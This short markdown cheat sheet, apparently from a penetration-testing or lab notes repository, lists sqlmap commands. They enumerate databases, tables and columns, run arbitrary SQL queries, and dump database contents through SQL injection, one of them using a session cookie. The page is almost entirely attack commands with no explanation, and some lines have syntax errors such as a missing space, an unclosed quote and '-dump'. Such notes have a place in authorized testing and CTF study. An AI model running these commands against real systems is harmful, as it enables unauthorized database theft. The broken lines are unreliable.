# SQLmap commands
## http post req in req.tex 
```
sqlmap -r req.txt --level 3 --risk 3 --dbs	
```
```
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE--tables
```
```
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE --columns
```
```
sqlmap -r req.txt --level 3 --risk 3 -D YOURDATABASE -T YOURTABLE -C YOURCOLUMN --sql-query "YOURQUERY"
```

```
sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump
```
```
sqlmap  -u "http://10.10.58.103/products/1" --batch -D <database> --dump
```
